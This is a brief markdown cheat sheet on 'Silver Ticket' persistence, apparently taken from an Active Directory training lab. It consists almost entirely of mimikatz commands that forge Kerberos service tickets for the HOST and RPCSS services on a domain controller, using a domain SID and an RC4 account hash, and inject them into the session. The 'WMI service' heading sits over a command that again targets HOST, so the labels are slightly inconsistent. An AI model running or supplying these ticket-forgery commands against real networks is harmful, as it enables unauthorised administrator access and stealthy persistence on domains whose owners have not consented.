

# Persistence Silver Ticket



## Index:
  1. [Attack]

## Attack

HOST service:
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

```
WMI service:

```
C:\Windows\system32>C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
